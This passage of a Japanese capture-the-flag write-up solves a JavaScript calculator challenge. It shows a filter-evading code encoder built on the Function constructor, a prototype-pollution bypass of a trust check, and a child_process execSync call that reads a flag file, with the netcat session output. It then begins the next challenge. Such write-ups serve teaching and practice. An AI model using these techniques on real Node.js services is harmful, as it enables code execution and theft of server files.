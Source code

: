 ```javascript
function f(code) {
  const arr = code.split('').map(c => c.charCodeAt(0));
  return `(Math=>Math.constructor)(Math.constructor)((Math=>Math.fromCharCode)((Math=>Math.constructor)(Math+0))(${arr.join(',')}))()`;
}
```

ただ、これでは 200 文字未満という制限のせいでかなり短いコードしか実行できません。なんとかできないでしょうか。

コードを読むと、どうやら `user.trusted` を `true` にすれば `reg` によるチェックもなくせるようです。`f('user.trusted=1')` でいけるかと思いきや、残念ながらスコープの関係で `user` にアクセスできないようです。

よく見ると、`user.trusted` は最初のユーザ名の入力時に `user.name == "such_a_trusted_user_wow"` である場合にのみ `true` が代入されており、それ以外の場合には `undefined` になっています。

こういったシチュエーションでは[プロトタイプ汚染攻撃](https://jovi0608.hatenablog.com/entry/2018/10/19/083725)が有効です。`Object.prototype.trusted = 1` を実行すれば、`user.trusted` が `undefined` だった場合にはプロトタイプチェーンをたどって `Object.prototype.trusted` にアクセスするために `!user.trusted` が真になるはずです。

`f('({}).__proto__.trusted=1')` が生成するコードを実行し、`console.log(123)` を入力すると `123` と表示されました。ちゃんと `!user.trusted` が真になっているようです。

問題文によると `/ctf/flag.txt` にフラグがあるようなので、読んでみましょう。

```
$ nc (省略)
Welcome to my Calculator-as-a-Service (CaaS)!
Our advanced js-based calculator allows for advanced boolean-based operations!
Try calculating '(2 < 3) ? 5 : 6' (without the quotes of course)!
However, if we don't trust you then we'll have to filter your input a bit.
What's your name? neko
Hello neko!
> (Math=>Math.constructor)(Math.constructor)((Math=>Math.fromCharCode)((Math=>Math.constructor)(Math+0))(40,123,125,41,46,95,95,112,114,111,116,111,95,95,46,116,114,117,115,116,101,100,61,49))()
undefined
> console.log(require('child_process').execSync('cat /ctf/flag.txt').toString())
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}

undefined
> 
```

フラグが得られました。

```
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}
```

## [Misc 240] Noisy (121 solves)
> My furrier friend tried to send me a morse code message about some new furs, but he was using a noisy connection. I think he repeated it a few times but I still can't tell what he said, could you figure out what he was trying to tell me? Here's the code he used.
> 
> (the flag is not in the actf{} format, it's all lowercase, 1 repetition only)
> 
> 添付ファイル: Noisey.py, 4ea.txt (Noisey.py の出力)
> 
> Author: fireholder
